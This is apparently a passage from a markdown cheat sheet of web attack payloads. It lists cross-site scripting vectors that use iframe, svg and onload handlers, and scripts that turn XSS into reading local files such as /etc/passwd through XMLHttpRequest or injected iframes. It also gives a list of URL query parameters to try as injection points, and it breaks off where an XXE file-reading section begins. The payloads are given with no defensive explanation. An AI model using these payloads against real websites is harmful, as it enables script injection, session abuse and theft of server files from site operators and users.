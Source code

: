 ```xml
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>
```

### XSS to LFI

#### most common payloads
`<script>`
```js
<script>
    x=new XMLHttpRequest;
    x.onload=function(){
        document.write(this.responseText)
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```
`<iframe>`
```js
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```
`<script>` and `<iframe>` with `document.write`
```js
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```
### Top XSS dorks
```http
?q={payload}
?s={payload}
?search={payload}
?id={payload}
?lang={payload}
?keyword={payload}
?query={payload}
?page={payload}
?keywords={payload}
?year={payload}
?view={payload}
?email={payload}
?type={payload}
?name={payload}
?p={payload}
?month={payload}
?immagine={payload}
?list_type={payload}
?url={payload}
?terms={payload}
?catagortid={payload}
?key={payload}
?l={payload}
?begindate={payload}
?enddate={payload}
```
--------------------------------------------------------------------------------------------------------------
# XXE common payloads
### XXE: read local files
  `linux`
```xml
<?xml version="1.0"?>
```